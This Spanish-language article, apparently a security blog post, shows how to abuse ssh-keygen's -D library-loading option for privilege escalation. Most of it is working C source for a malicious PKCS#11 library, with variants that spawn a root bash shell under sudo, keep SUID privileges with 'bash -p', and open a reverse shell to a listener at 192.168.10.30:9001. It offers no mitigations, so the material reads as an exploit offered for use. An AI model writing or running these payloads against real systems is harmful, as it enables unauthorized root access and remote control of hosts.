# Abusando de ssh-keygen

SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.

En este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.

En concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente.

```c
ssh-keygen -D ./lib.so
```

# Como generamos el payload

Una vez explicado que nos lleva a poder explotar esta función, vamos a explicar en mayor detalle como generar un payload cargable, para ello primero de todo será obtener una versión de pkcs11.h . En este archivo de cabeceras es donde se definen los tipos de datos necesarios para la función de nuestra librería que llamara ssh-keygen al usar el parámetro -D. 

En nuestro caso, para ello iremos al repositorio de Open Smart Card y descargaremos la versión que necesitamos de la siguiente url:

 https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h

Con este archivo procederemos a escribir un pequeño programa en C con la estructura necesaria para ser ejecutado por ssh-keygen, en nuestro caso este programa spwanea una shell en bash.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos cargarlo como librería como indicamos en la introducción. 

# Profit

## Caso 1: Sudo SSH-Keygen

Vamos a explotar un escenario donde nuestro usuario tiene permisos para ejecutar el comando ssh-keygen como root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

En este ese caso, en lugar de hacer uso de una simple llamada a bash vamos a cargar una reverse shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-c" , "bash -i >& /dev/tcp/192.168.10.30/9001 0>&1", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Como resultado, al cargarla obtendremos una conexión como root en nuestro listener, podríamos cambiarlo para ejecutar una shell sencillamente como en el ejemplo de la sección de teoría 

## Caso 2: SSH-Keygen SUID

En este escenario vamos a explotar un escenario algo menos común donde ssh-keygen tiene el bit del SUID activado, en este caso para mantener los privilegios del SUID tenemos que cambiar un poco el código de la librería para que la shell mantenga los privilegios

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-p", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos ejecutar el comando para cargar la librería y obtener una shell con los privilegios necesarios